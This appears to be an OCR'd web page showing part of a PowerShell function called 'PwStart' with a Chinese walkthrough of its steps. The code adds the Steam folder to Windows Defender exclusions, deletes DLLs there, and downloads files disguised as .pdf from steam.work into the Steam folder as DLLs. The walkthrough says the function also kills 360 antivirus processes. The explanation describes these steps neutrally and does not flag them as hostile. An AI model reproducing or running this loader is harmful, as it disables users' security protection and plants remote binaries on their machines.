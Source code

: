    ```powershell
           }
       }
   
       try{
           Add-MpPreference -ExclusionPath $steamPath -ErrorAction Stop
           Start-Sleep 3
       }catch{}
   
       Write-Host "[Result->0     OK]" -ForegroundColor:green
   
       try{
           $d = $steamPath + "/version.dll"
           if (Test-Path $d) {
               Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null
           }
           $d = $steamPath + "/user32.dll"
           if (Test-Path $d) {
               Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null
           }
           $d = $steamPath + "/steam.cfg"
           if (Test-Path $d) {
               Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null
           }
           $d = $steamPath + "/hid.dll"
           if (Test-Path $d) {
               Remove-Item $d -Recurse -Force -ErrorAction Stop | Out-Null
           }
       }catch{
           Write-Host "[异常残留请检查[$d]文件是否异常!]" -ForegroundColor:red
           exit
       }
   
       $downloadData = "http://steam.work/pwsDwFile/bcfc1e52ca77ad82122dfe4c9560f3ec.pdf"
       $downloadLink = "http://steam.work/pwsDwFile/9b96dac2bb0ba18d56068fabc5b17185.pdf"
   
       irm -Uri $downloadLink -OutFile $d -ErrorAction Stop
       Write-Host "[Result->1     OK]" -ForegroundColor:green
       $d = $localPath + "/hid"
       irm -Uri $downloadData -OutFile $d -ErrorAction Stop
       Write-Host "[Result->2     OK]" -ForegroundColor:green
   
       Start-Sleep 1
   
       Start steam://
       Write-Host "[连接服务器成功请在Steam输入激活码 3秒后自动关闭]" -ForegroundColor:green
       Start-Sleep 3
   
       $processID = Get-CimInstance Win32_Process -Filter "ProcessId = '$pid'"
       Stop-Process -Id $processID.ParentProcessId -Force
       exit
   }
   ```
   这个函数`PwStart`执行了以下任务：
   - 检查并终止360安全卫士和360杀毒进程。
   - 确认Steam安装路径是否存在。
   - 停止所有Steam相关进程。
   - 创建本地目录（如果不存在）。
   - 删除特定Steam缓存数据。
   - 添加Steam路径到Windows Defender的排除路径。
   - 删除特定Steam文件。
   - 下载并保存指定文件到本地路径，下载的文件包括“version.dll”、“user32.dll”、“steam.cfg”和“hid.dll”。
   - 启动Steam并提示用户输入激活码。
